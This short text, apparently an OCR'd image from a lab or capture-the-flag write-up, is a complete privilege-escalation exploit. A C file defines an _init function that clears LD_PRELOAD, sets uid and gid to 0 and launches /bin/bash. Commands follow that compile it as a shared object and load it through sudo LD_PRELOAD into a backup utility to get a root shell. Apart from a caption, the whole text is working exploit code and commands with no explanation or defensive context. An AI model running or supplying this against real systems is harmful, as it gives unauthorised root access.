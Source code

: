 	1. nano exploit.c
		#include <stdio.h>
		#include <sys/types.h>
		#include <stdlib.h>
		
		void _init() {
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/bash");
		}
	2. gcc exploit.c -o exploit -fPIC -shared -nostartfiles -w
	3. sudo LD_PRELOAD=/tmp/exploit /usr/bin/sky_backup_utility